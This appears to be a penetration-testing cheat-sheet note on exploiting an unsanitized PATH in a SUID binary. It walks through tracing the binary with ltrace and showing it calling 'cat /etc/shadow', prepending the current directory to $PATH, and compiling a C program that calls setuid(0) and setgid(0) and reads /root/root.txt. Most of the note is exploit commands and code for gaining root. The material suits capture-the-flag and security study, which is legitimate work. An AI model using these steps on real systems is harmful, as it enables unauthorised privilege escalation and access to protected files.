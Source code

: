 # Unsanitized Path
#unsanitizedpath 

1. Search for suid binaries (see [[LPE]])
2. Check if binary calls other binaries without full path via `ltrace` and `strace`
```
XXXXXXXXXX:~$ ltrace ./backup 
__libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
```
3.  Add local path (`pwd`) to the start of the the `$PATH` var
`export PATH=<pwd-output>:$PATH`
5.  Place a evil bin with the name of the unsanitized bin in the current folder, for example:
demo.c:
```
#include<unistd.h>
void main(){
        setuid(0);
        setgid(0);
        system("more /root/root.txt");
}
```
`gcc demo.c -o <name-of-evil-bin>`
But any executable file can be used.
6. Run the vulnerable binary
7. `$$$`